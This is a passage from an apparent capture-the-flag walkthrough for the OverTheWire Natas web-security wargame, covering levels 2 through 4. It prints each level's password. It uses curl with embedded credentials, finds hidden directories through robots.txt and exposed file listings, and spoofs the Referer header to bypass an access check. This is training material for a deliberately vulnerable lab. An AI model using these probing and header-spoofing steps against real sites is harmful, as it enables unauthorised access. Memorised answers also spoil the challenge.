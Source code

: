 	   	<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
	   	<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
	   	<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
	   	<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
	   	<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
	   	<script>var wechallinfo = { "level": "natas2", "pass": "ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi" };</script></head>
	   	<body>
	   	<h1>natas2</h1>
	   	<div id="content">
	   	There is nothing on this page
	   	<img src="files/pixel.png">
	   	</div>
	   	</body></html>
	5. Hmm, I wonder what's in "/files" directory? http://natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi@natas2.natas.labs.overthewire.org/files/
	6. We see "pixel.png" and "users.txt", let's see http://natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi@natas2.natas.labs.overthewire.org/files/users.txt
		# username:password
		alice:BYNdCesZqW
		bob:jw2ueICLvT
		charlie:G5vCxkVV3m
		natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
		eve:zo4mJWyNj2
		mallory:9urtcpzBmH
natas3:
	1. Visit http://natas3.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14"
	4. http://natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14@natas3.natas.labs.overthewire.org
	5. $ curl http://natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14@natas3.natas.labs.overthewire.org/
		...
		<div id="content">
		There is nothing on this page
		<!-- No more information leaks!! Not even Google will find it this time... -->
		</div>
		...
	6. hmm, google you say?
	   $ curl http://natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14@natas3.natas.labs.overthewire.org/robots.txt
	   	User-agent: *
	   	Disallow: /s3cr3t/
	7. http://natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14@natas3.natas.labs.overthewire.org/s3cr3t/ we see "users.txt" again
	8. http://natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14@natas3.natas.labs.overthewire.org/s3cr3t/users.txt
		natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
natas4:
	1. Visit http://natas4.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ"
	4. http://natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ@natas4.natas.labs.overthewire.org
		"Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" "
	5. Let's spoof our "Referer" header
	   $ curl -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ@natas4.natas.labs.overthewire.org
	   	...
	   	<div id="content">
	   	Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
	   	<br/>